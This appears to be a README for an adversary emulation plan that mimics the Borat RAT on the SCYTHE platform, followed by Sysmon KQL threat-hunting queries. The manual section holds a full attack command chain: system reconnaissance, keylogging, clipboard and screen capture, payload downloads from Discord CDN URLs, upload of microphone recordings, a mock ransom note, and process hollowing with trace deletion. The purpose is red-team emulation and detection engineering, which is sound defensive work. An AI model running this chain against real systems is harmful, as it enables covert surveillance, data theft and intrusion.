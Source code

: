# Borat RAT - Adversary Emulation Plan

This threat was created by Randy Pargman from BinaryDefense based on the threat intelligence from March 31, 2022: https://blog.cyble.com/2022/03/31/deep-dive-analysis-borat-rat/

## Automated Adversary Emulation with SCYTHE

1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under BoratRAT/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/
4. Create a new campaign `BoratRAT` with HTTPS
5. Import from Existing Threat: BoratRAT
6. Launch the Campaign

## Notes on unique functionality
1. This threat downloads two files (Audio.dll and Ransomware.dll) from Discord CDN URLs. They are hosted on a Discord server administered by Randy Pargman of Binary Defense, and are intended to stay available online for the foreseeable future. However, if you wish to host the files yourself, simply grab the copies of Audio.dll and Ransomware.dll from the VFS folder and upload to your own Discord server, then replace the URLs in the downloader steps.
2. The Ransomware.dll file does not actually encrypt any files. Its only purpose is to drop a ransom note that contains the same text as Borat RAT's ransom note, on the user's desktop.
3. The Audio.dll file is written in C# and it very closely matches the functionality of the real Borat RAT Audio.dll microphone recorder, except that it doesn't communicate over the Borat RAT packed message C2 channel. You can find the source code in the linked Github project (as a submodule).

## Manual Adversary Emulation with SCYTHE
Start a SCYTHE campaign and manually execute the below commands:
```
loader --load run
run cmd /c "echo ####System Info#### & systeminfo & echo ####System Vesion#### & ver & echo ####Host Name#### & hostname & echo ####Environment Variable##### & set & echo ####Logical Disk##### & wmic logicaldisk get caption,description,providername & echo ####User Info#### & net user & echo ####Online User#### & query user & echo ####Local Group#### & net localgroup & echo ####Administrators### & net localgroup administrators & echo ####Guest User#### & net user guest & echo ####Administrator User Info#### & net user administrator & echo ####Startup Info#### & wmic startup get caption,command & echo ####Tasklist#### & tasklist /svc & echo ####Ipcofig#### & ipconfig /all & echo ####Hosts#### & type C:\WINDOWS\System32\drivers\etc\hosts & echo ####Route Table#### & route print & echo ####Arp Info#### & arp -a & echo ####Netstat#### & netstat -ano & echo ####Service Info#### & sc query type= service state= all & echo ####FirewallInfo#### & netsh firewall show state & netsh firewall show config"
loader --load keylogger
keylogger --start
loader --load clipboard
clipboard
loader --load printscr
printscr --window Desktop
keylogger --current
keylogger --stop
run cmd.exe /c set
run wmic logicaldisk get caption,description,providername
run net user
run net user administrator
run wmic startup get caption,command
run tasklist /svc
run ipconfig /all
run cmd.exe /c type C:\WINDOWS\System32\drivers\etc\hosts
run route print
run arp -a
run netstat -ano
run sc query type= service state= all
run cmd.exe /c netsh firewall show state & netsh firewall show config
loader --load downloader
loader --load file
loader --load upsh
downloader --src "https://cdn.discordapp.com/attachments/853389026839756837/963125834342862878/AudioRecorder.dll" --dest %USERPROFILE%\Audio.dll
upsh --cmd $assembly = [Reflection.Assembly]::LoadFile("$env:USERPROFILE\Audio.dll"); $instance = New-Object AudioRecorder.AudioRecorer; $result =$instance.AudioInit(10);
delay --time 10
uploader --remotepath C:\Users\Public\Document\micaudio.log.txt
uploader --remotepath C:\Users\Public\Document\micaudio.wav
run powershell.exe del C:\Users\Public\Document\micaudio.log.txt
run powershell.exe del C:\Users\Public\Document\micaudio.wav
downloader --src "https://cdn.discordapp.com/attachments/853389026839756837/960944365335904286/Ransomware.dll" --dest %USERPROFILE%/Desktop/Ransomware.dll
run cmd /c cd %USERPROFILE%\Desktop & rundll32 Ransomware.dll,DropNote
run powershell del $env:USERPROFILE\Desktop\Ransomware.dll -Force -ErrorAction Ignore
downloader --src "https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Start-Hollow.ps1" --dest %USERPROFILE%/Start-Hollow.ps1
run powershell.exe Set-ExecutionPolicy Bypass -Scope Process -Force ; Invoke-Command -ScriptBlock {. $env:userprofile\Start-Hollow.ps1; $ppid="Get-Process explorer | select -expand id"; Start-Hollow -Sponsor "C:\Windows\System32\calc.exe" -Hollow "C:\Windows\System32\cmd.exe" -ParentPID $ppid -Verbose}
upsh --cmd "Invoke-Command -ScriptBlock {Stop-Process -Name "calc" -ErrorAction Ignore; }"
run powershell.exe del $env:userprofile/Start-Hollow.ps1
controller --shutdown
```
## Threat Hunting KQL Queries for Sysmon Logs
```
// Threat Hunting KQL queries for Sysmon logs
// Used as examples in the Binary Defense & SCYTHE presentation on 11 May 2022:
// "Punking BoratRAT: From Analysis to Detection Engineering in a Day"
// https://www.binarydefense.com/webinars/punking-boratrat-from-analysis-to-detection-engineering-in-a-day/

// Note: These queries assume that you have saved a custom function named Sysmon to make queries easier.
// You can find this custom function here: https://github.com/BinaryDefense/ThreatHuntingJupyterNotebooks/blob/main/sysmon_custom_function.txt
// Follow the instructions at the top of the file to install it in your Sentinel, then you can run the queries below in a new window.

// Look for host and network recon commands - this is generally applicable across many threats
Sysmon 
| where ProcessCommandLine has_any("systeminfo", "wmic logicaldisk", "net user", "localgroup", "query", "tasklist", "ipconfig", "netstat", "arp", "netsh firewall", "sc query", "nltest")
| summarize count(), make_list(ProcessCommandLine) by DeviceName, bin(TimeGenerated, 10m) // look for several commands in a short time window
| where count_ > 3


// Look for unusual processes downloading files from Discord
Sysmon
| where DnsQueryName has "cdn.discordapp.com" // malware is sometimes hosted on Discord file sharing
| where ProcessPath !endswith "discord.exe" // filter out discord client
| summarize count() by  DeviceName, ProcessPath, DnsQueryName // look for programs other than Discord and web browsers


// Look for the highly suspicious "ransomware.dll" file - we want to know if that shows up!
Sysmon 
| where FileName has "ransomware.dll" or ProcessCommandLine has "ransomware.dll" 
| project TimeGenerated,  DeviceName, RenderedDescription, FileName, ProcessPath


// look for any other suspicious-sounding DLL files that BoratRAT uses (by filename)
Sysmon 
| where FileName has_any ("Ransomware.dll", "Audio.dll", "MessagePackLib.dll", "Regedit.dll", "RemoteCamera.dll", "RemoteDesktop.dll",
                          "ReverseProxy.dll", "SendFile.dll", "SendMemory.dll")
| project TimeGenerated,  DeviceName, RenderedDescription, FileName, ProcessPath


// look for the "keylogger.exe" program used by BoratRAT
Sysmon 
| where FileName has "keylogger.exe" or ProcessPath has "keylogger.exe" or ProcessCommandLine has "keylogger.exe"
| project TimeGenerated,  DeviceName, RenderedDescription, FileName, ProcessPath


// Detect any files called micaudio.wav (hard-coded filename in BoratRAT audio recorder)
Sysmon 
| where FileName has "micaudio.wav"
| project TimeGenerated,  DeviceName, RenderedDescription, FileName, ProcessPath


// Search for rundll32 and regsvr32 launching child processes
// This is not necessarily malicious, just helpful as a threat hunter to know what is normal
Sysmon
| where EventID == 1 // Process start events...
| where InitiatingProcessFile has_any ("rundll32", "regsvr32") // Parent process is rundll32 or regsvr32
| summarize count() by DeviceName, InitiatingProcessCommandLine, ProcessCommandLine // look for suspicious child processes


// Detect process tampering events with Sysmon event ID 25
Sysmon
| where EventID == 25 // Detect Process Hollowing!
| project TimeGenerated, DeviceName, RenderedDescription, ProcessId, ProcessPath, ActionType
```
